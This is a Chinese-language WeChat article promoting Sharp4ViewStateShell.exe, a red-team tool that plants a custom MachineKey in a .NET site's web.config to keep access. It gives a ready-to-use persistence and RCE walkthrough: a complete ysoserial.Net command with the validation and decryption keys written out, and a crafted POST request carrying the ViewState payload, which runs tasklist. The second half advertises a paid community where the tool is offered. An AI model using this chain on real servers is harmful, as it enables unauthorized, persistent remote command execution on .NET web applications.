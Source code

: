 #  基于 ViewState 反序列化漏洞，通过 Sharp4ViewStateShell 执行命令实现权限维持   
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-04 00:23  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队中持久化访问权限是关键环节之一，Sharp4ViewStateShell.exe  
 是一款专门为.NET Web站点设计的权限维持工具，其核心思想是通过配置自定义的 MachineKey  
，结合 .NET 的 ViewState 反序列化漏洞，实现远程命令执行并维持访问权限。本文将详细讲解该工具的使用方式及其利用链流程，帮助红队人员快速完成权限维持操作。  
  
**01. 工具基本介绍**  
  
  
  
Sharp4ViewStateShell.exe自动修改 .NET 的 web.config  
 文件，插入自定义 MachineKey  
，用于后续利用 ViewState 反序列化漏洞实现远程命令执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8XbYZSx0wmibrjr5HlKHd9BF2lJnqw4MkzssIx7aW6lKRKSAWNIPCE89uBLKe13qtMlOudCuK3B4g/640?wx_fmt=jpeg&from=appmsg "")  
  
**02. 工具实战用法**  
  
  
  
一键运行 Sharp4ViewStateShell.exe  
 修改目标站点的 web.config，直接运行 Sharp4ViewStateShell.exe，无需任何参数。  
  
```
Sharp4ViewStateShell.exe
```  
  
  
执行后，该工具会自动为站点插入 MachineKey 配置项，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8XbYZSx0wmibrjr5HlKHd9BMgNsvCEVKlCekZKzibBsCdgdIUImBDyJTcc3apzYiaNfwC1I9ibr3EUbw/640?wx_fmt=png&from=appmsg "")  
  
接着，访问目标页面单个 aspx页面  
，使用浏览器开发者工具或 Burp Suite 抓包工具，找到页面源码中类似如下内容：  
  
```
<input type="hidden" name="__VIEWSTATEGENERATOR" id="__VIEWSTATEGENERATOR"value="DBC4925F"/>
```  
  
  
随  
后，使用 ysoserial.Net  
 构造带有命令执行，比如 tasklist 的ViewState负载，命令如下所示。  
  
```
ysoserial.exe -p ViewState -g XamlAssemblyLoadFromFile -c "./ExploitClass.cs;./dlls/System.dll;./dlls/System.Web.dll;./dlls/Microsoft.AspNet.FriendlyUrls.dll" \--validationalg="SHA1" \--validationkey="28E969418EFBAF7DAF4A05B12A9F588774129BA306ED094A0C9CA70A45F6C4A83512EB9CF050D7261ADA8E57728B830E540BC26394CEF1F43AEC642AD61D894F" \--decryptionalg="AES" \--decryptionkey="F6F6CB3C4FE662991CEF709C5A2ACDDD228FDF21CD708186736FE4B3E008B3A6" \--generator="DBC4925F"
```  
  
  
执行后将输出一个经过Base64编码的 __VIEWSTATE  
 值，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8XbYZSx0wmibrjr5HlKHd9BClUwFFNLPCN5mibotpAQwlGQAbArFNJKdX15MhpIs7icwx4yM6voD9tQ/640?wx_fmt=png&from=appmsg "")  
  
最后，构造如下 POST 请求，并将上一步生成的 ViewState 值粘贴到 __VIEWSTATE  
 参数中：  
  
```
POST /ViewState.aspx HTTP/1.1Host:localhostPragma: no-cacheCache-Control: no-cacheUser-Agent: Mozilla/5.0(Windows NT 10.0; Win64; x64) Chrome/137.0.0.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,;q=0.8Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length:9337form1_r=0.7834879954225045&form1_t=1734416003580&form1_d=1734416071170&form1_e=2&__VIEWSTATE=【此处粘贴生成的ViewState】
```  
  
  
将该请求发送到 ViewState.aspx  
 页面，成功后页面响应可能包含命令执行结果，tasklist 命令已被成功执行，实现远程RCE，如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8XbYZSx0wmibrjr5HlKHd9BOmEmqm5jdrG254MekDD64q4hcTEicYXcceoC7eSYASibayhTHTxaWwBQ/640?wx_fmt=png&from=appmsg "")  
  
综上，Sharp4ViewStateShell.exe  
 利用了 .NET 的 ViewState 反序列化机制配合自定义 MachineKey，实现持久化远程命令执行，非常适合在红队渗透中用于权限维持。  
文章涉及的工  
具已  
打包在星球，感兴趣的朋友可以加入自取。  
  
**03.NET安全扩展学习**  
  
  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**04. 技术精华内容**  
  
  
  
从漏洞分析到安全攻防，我们涵盖了 .NET 安全各个关键方面，为您呈现最新、最全面的 .NET 安全知识，下面是公众号发布的精华文章集合，推荐大伙阅读！  
  
[](https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499267&idx=2&sn=1462cf23c9a8568cc80705d2d3a1a69e&scene=21#wechat_redirect)  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8A7Qhn1ssuqNzv0iceS7ZhOuZ0AO4P1eFeG2xTdR2V6GWibiaxO2RenUJzrwOfvsdqofibI6H2uY0CLQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247493952&idx=4&sn=db68011fb075c1d02268811163646b53&chksm=fa5947adcd2ecebbb1ca6659f289a5e344e37d1136fe0bd9272b5578e4c71bb19bb250e934d3&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247495167&idx=1&sn=9280c55fdc7c9146e549be470cf9f120&chksm=fa594312cd2eca04bfe8fd1fd3890b389d9c700b9b69d897f919addac399bab4f4d2e55f6b4f&scene=21#wechat_redirect)  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490722&idx=2&sn=c9807daa5548e139a0c67303cb26882a&chksm=fa5ab24fcd2d3b59a85be03e69c655ffd644e8458bc2ec3f572da4b40b43e5003fda756f35b4&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490703&idx=2&sn=e7db1ff662e5b41d9a1806fbdf33e204&chksm=fa5ab262cd2d3b7470f029b9a07d1dd3611e63be910b01a601144efe7d84b5f016f488a354cf&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490700&idx=2&sn=e8a865ada7c743e77fb9e953c5da74b1&chksm=fa5ab261cd2d3b7736387eddfc8524a378a1604552d0c9b55476646f9e8275f48818aab8acad&scene=21#wechat_redirect)  
  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247488736&idx=2&sn=d24aaa297c51eb620ccdf67af513086d&chksm=fa5aba0dcd2d331bbb22f3f5657199d718c90efed42fcb9cb67ec23d342f887c117e4858f1cb&scene=21#wechat_redirect)  
  
  
**05. 加入安全社区**  
  
  
  
目前dot.Net安全矩阵星球已成为中国.NET安全领域最知名、最专业的技术知识库之一，超 **1200+**  
 成员一起互动学习。星球主题数量近 **600+**  
，精华主题   
230+  
，PDF文档和压缩包   
300+   
。从Web应用到PC端软件应用，无论您是初学者还是经验丰富的开发人员，都能在这里找到对应的实战指南和最佳实践。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9AiaXibTRdEnEfYuQx76FjZVjmyEWtIaDuDePFFmyRqggiaq2k47pLoib9GZtUCOhaP40WPlhvbiaKZVg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 20+专栏文章  
  
星球文化始终认为授人以鱼不如授人以渔！星球整理出**20+**  
个专题栏目涵盖 **.NET安全 点、线、面、体等知识范围**  
，助力师傅们实战攻防！其中主题包括.NET  内网攻防、漏洞分析、内存马、代码审计、预编译、反序列化、WebShell免杀、命令执行、工具库等等。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa90SJRuwnLy9uZV4icrXiaZlJPQlYJWXTw8HCrF9oTcE3DDgrdFnXo2BA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 海量资源和工具  
  
截至当前，dot.Net安全矩阵星球社区汇聚了   
**600+**  
 个实用工具和高质量PDF学习资料。这些资源涵盖了攻防对抗的各个方面，在实战中能够发挥显著作用，为对抗突破提供强有力的支持。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaqVZW8XsALVA4FNiaj32q8npN82VSeqSKb4fQvLiczFNs0099VRFVQwPA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopa63ZXbX3YXLwoeNnjStcRtTbU9hoe6ecO5hhkj2apG1I6tKlkpz5GaQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
## 专属成员交流群  
  
我们还有多个成员专属的  
**内部星球陪伴群**  
，加入的成员可以通过在群里提出问题或参与论的方式来与其他成员交流思想和经验。此外还可以通过星球或者微信群私聊向我们进行提问，以获取帮助迅速解决问题。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopaAiaouHb6HYza539m9v0ykDoD2JezaArDZBPlJInuabf6XsduzVcjZ0Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
## 已入驻的大咖们  
  
星球汇聚了各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布很多  
**高质量的.NET安全资源**  
，可以说市面上很少见，都是干货。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibEkb2HkMVuw4d7qjcTYUtl04w8xDiaUaJxticro644uWw5XuJ6ZXCNXCticjYWjpXNmp3omQHUNFRPg/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
## 欢迎加入我们  
  
dotNet安全矩阵星球从创建以来一直聚焦于.NET领域的安全攻防技术，定位于高质量安全攻防星球社区，也得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展。  
**星球门票后期价格随着内容和质量的不断沉淀会适当提高，因此越早加入越好！**  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y8xRheDpQ7NsESosdNZUopag09JtYcKpucjZPAlfeqC1ovcQvhrkemAzbURDaVF3InmpQshiatDnyQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
